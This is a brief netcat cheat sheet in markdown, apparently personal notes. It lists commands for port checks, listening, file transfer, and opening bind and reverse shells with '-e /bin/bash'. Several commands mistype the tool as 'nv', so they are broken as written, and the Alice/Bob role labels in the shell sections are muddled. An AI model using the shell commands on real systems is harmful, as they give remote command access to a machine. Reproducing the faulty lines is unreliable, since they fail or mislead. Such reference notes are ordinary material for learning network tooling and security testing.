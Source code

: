 ```yaml
---
title: "netcat"
linkTitle: "netcat"
date: 2017-01-05
---
```


### Check open port

```bash
nc -vz 1.1.1.1 53
nc -vnz 1.1.1.1 53
```

### Listen

```bash
nv -lnvp 1234
```

on localhost:

```bash
nc -nv -l 127.0.0.1 -p 1234
```

### Transfer

Alice -> Bob

Bob:

```bash
nv -lnvp 1234 > file
```

Alice:

```bash
nv -nv 192.168.1.1 1234 < file
```

### Bind shell

Alice -> Bob

Bob:

```bash
nc -nv -l 127.0.0.1 1234 -e /bin/bash
```

Alice:

```bash
nc -nv 127.0.0.1 1234
```

### Reverse shell

`Alice <- Bob`

Bob:

```bash
nc -nv -l 127.0.0.1 1234
```

Alice:

```bash
nc -nv 127.0.0.1 1234 -e /bin/bash
```
